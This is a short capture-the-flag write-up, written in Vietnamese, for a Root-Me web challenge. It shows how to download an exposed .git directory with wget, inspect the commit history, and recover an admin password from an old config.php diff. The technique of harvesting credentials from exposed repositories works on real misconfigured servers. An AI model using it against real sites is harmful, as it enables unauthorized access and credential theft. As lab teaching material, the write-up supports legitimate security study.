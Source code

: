 # [Insecure Code Management](https://www.root-me.org/en/Challenges/Web-Server/Insecure-Code-Management)

## Solutions

- Sử dụng lệnh `wget -r http://challenge01.root-me.org/web-serveur/ch61/.git/`: để tải folder `.git` về
- Sử dụng lệnh `git log`: để xem lịch sử commit
  - Thấy commit `a8673b295eca6a4fa820706d5f809f1a8b49fcba` có nội dung là `changed password`
- Sử dụng lệnh `git show a8673b295eca6a4fa820706d5f809f1a8b49fcba`: để xem nội dung thay đổi

    ```git
    └─$ git show a8673b295eca6a4fa820706d5f809f1a8b49fcba

    commit a8673b295eca6a4fa820706d5f809f1a8b49fcba
    Author: John <john@bs-corp.com>
    Date:   Sun Sep 22 12:38:32 2019 +0200

        changed password

    diff --git a/config.php b/config.php
    index 9a7f16d..e11aad2 100644
    --- a/config.php
    +++ b/config.php
    @@ -1,3 +1,3 @@
    <?php
            $username = "admin";
    -       $password = "admin";
    +       $password = "s3cureP@ssw0rd";
    ```

- => Lấy được credential: `admin:s3cureP@ssw0rd`
